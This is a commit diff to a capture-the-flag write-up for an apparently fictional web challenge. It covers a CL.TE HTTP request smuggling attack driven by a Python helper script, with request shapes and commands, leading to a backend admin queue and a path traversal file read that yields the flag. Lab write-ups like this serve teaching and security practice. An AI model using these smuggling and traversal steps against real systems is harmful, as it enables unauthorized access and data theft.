

Before and after one commit to GougasseHamza/web1, a Markdown page: writeup/writeup.md, 3 parts joined by grey strips. Shown at 88% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Tighten writeup smuggler flow

````diff
--- a/writeup/writeup.md
+++ b/writeup/writeup.md
@@ -97,11 +97,11 @@ Server: TeamShelf-Edge/4.18
 
 ![Direct admin blocked by edge](images/06-direct-admin-edge-404.png)
 
-So the route exists in the story, but the public edge refuses to publish it.
+Direct admin access is blocked at the edge.
 
 ## Smuggling Primitive
 
-The health endpoint is useful for understanding the deployment. It is served by the object service and shows that the edge has a warm HTTP/1.1 keep-alive upstream:
+The health endpoint is served by the object service and shows an HTTP/1.1 keep-alive upstream:
 
 ```json
 {
@@ -112,9 +112,17 @@ The health endpoint is useful for understanding the deployment. It is served by
 }
 ```
 
-That points toward a front-end/back-end parser mismatch. The edge uses `Content-Length` to decide how much request body to forward, while the backend honors `Transfer-Encoding: chunked`.
+The edge uses `Content-Length` to decide how much request body to forward. The backend honors `Transfer-Encoding: chunked`.
 
-The CL.TE payload shape is:
+I used a Python smuggler helper script to keep request order stable and calculate the outer `Content-Length`:
+
+```bash
+python3 teamshelf-smuggler.py send "http://<host>:<port>" \
+  "/admin?queue=upload-review" \
+  --show-first --print-request
+```
+
+The generated CL.TE request has this shape:
 
 ```http
 POST /upload HTTP/1.1
@@ -132,7 +140,7 @@ Connection: keep-alive
 
 ```
 
-Then a normal request is sent to pull the queued response:
+The helper then sends a normal trigger request:
 
 ```http
 GET /api/health HTTP/1.1
@@ -141,7 +149,7 @@ Connection: close
 
 ```
 
-Sending only the trigger request does nothing useful because no hidden backend response has been queued yet:
+Trigger-only request before smuggling:
 
 ![Empty trigger before smuggling](images/07-burp-trigger-tab-empty.png)
 
@@ -169,7 +177,12 @@ The queue page explains the next step. A restore-runner note was archived with a
 
 ![Smuggling proof with admin response](images/11-smuggling-proof-admin-response.png)
 
-I also validated the behavior progressively with raw HTTP:
+Progressive validation with the Python helper:
+
+```bash
+python3 teamshelf-smuggler.py send "http://<host>:<port>" "/admin" --show-first
+python3 teamshelf-smuggler.py send "http://<host>:<port>" "/admin?queue=upload-review" --show-first
+```
 
 ```text
 /admin                         -> admin queue not found
@@ -281,12 +300,10 @@ The flag is the content of:
 /home/local.txt
 ```
 
-## Takeaways
+## Attack Path Summary
 
-The important part of the challenge is the chain, not a single endpoint:
-
-- `/admin` is discovered from the upload-review business flow, not blind directory fuzzing.
+- `/admin` is discovered from the upload-review business flow.
 - Direct admin access is blocked by the edge.
-- CL.TE desync lets a backend-only request pass through the trusted upstream connection.
-- The admin queue leaks an archived restore connector header for a believable operational reason.
-- The archive reader has a separate path traversal bug that turns backend access into file read.
+- CL.TE desync reaches the backend-only admin queue.
+- The admin queue leaks an archived restore connector header.
+- The archive reader path traversal reads `/home/local.txt`.
````
Also changed, not shown: other parts of writeup/writeup.md (+25 -19 lines).
